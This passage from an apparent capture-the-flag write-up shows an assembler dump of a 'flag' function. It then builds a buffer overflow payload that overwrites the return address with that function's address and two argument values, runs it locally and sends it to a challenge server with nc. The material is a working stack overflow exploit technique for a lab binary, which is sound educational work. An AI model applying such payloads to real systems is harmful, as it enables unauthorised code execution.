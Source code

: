 	   0x0804923a <+88>:    lea    eax,[ebp-0x4c]
	   0x0804923d <+91>:    push   eax
	   0x0804923e <+92>:    call   0x8049050 <fgets@plt>
	   0x08049243 <+97>:    add    esp,0x10
	   0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
	   0x0804924d <+107>:   jne    0x8049269 <flag+135>
	   0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d
	   0x08049256 <+116>:   jne    0x804926c <flag+138>
	   0x08049258 <+118>:   sub    esp,0xc
	   0x0804925b <+121>:   lea    eax,[ebp-0x4c]
	   0x0804925e <+124>:   push   eax
	   0x0804925f <+125>:   call   0x8049030 <printf@plt>
	   0x08049264 <+130>:   add    esp,0x10
	   0x08049267 <+133>:   jmp    0x804926d <flag+139>
	   0x08049269 <+135>:   nop
	   0x0804926a <+136>:   jmp    0x804926d <flag+139>
	   0x0804926c <+138>:   nop
	   0x0804926d <+139>:   mov    ebx,DWORD PTR [ebp-0x4]
	   0x08049270 <+142>:   leave
	   0x08049271 <+143>:   ret
	End of assembler dump.
	```

  > The `flag` function start at `0x080491e2`. This will need to be injected into the payload.

10. We will need to inject the `flag` function using its starting mem address (in reverse) as well as the mem address of the required two parameters:

	```shell
	# creating the payload
	python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08'+b'test\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" > payload.txt
	
	cat payload.txt
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAtestﾭ�
	```

 > `create_overflow` + `mem_adddress_rev` + `mem_address_param1\mem_addres_param2`

  ```shell
  # send payload to function
  cat payload.txt | ./vuln
  You know who are 0xDiablos:
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAtestﾭ�
  Hurry up and try in on server side.
  ```

  > Function was called successfully as this is the expected output.

11. Grab the provided address `159.65.24.125:30760` and sent the payload there:

  ```shell
  # send the payload on the server side
  cat payload.txt | nc 159.65.24.125 30760
  ```
